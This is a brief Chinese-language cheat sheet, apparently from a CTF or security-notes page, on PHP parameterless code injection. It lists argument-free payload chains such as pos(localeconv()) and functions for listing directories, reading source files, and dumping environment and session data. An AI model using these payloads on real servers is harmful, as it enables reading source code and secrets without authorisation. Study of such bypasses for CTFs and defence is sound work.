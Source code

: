 - ## 无参数注入
- ```
  scandir 
  var_dump 
  show_source 
  localtime 
  time 
  current 
  chr 
  pos 
  end 
  next 
  prev 
  array_reverse 
  readfile
  
  ```
- ## 可用payload
- ```
  pos(localeconv())
  
  next(str_split(zend_version()))
  
  end(str_split(hebrevc(crypt(next(hash_algos())))))
  
  chr(ord(crypt(serialize(array()))))
  ```
- ### 其他
- ```
  array_flip
  array_rand
  array_reverse
  current（pos）
  类似的还有：
  文件
  file_get_contents()
  将整个文件读入一个字符串
  readfile()[readgzfile()]
  读取文件并写入到输出缓冲。
  highlight_file()[别名：show_source()]
  语法高亮一个文件
  scandir()
  列出指定路径中的文件和目录
  direname()
  给出一个包含有指向一个文件的全路径的字符串，本函数返回去掉文件名后的目录名。
  2/19
  getcwd()
  取得当前工作目录。
  chdir($directory)
  将 PHP 的当前目录改为 directory。
  读取环境变量
  get_defined_vars()
  此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义
  的变量。
  getenv
  获取一个环境变量的值
  localeconv()
  返回一包含本地数字及货币格式信息的数组,第一个值一直是.
  phpversion()
  获取当前的 PHP 版本
  zend_version()
  获取当前的 zend 版本（配合 str_split()割出点）
  会话
  session_id
  获取/设置当前会话 ID
  session_start
  启动新会话或者重用现有会话
  ```
-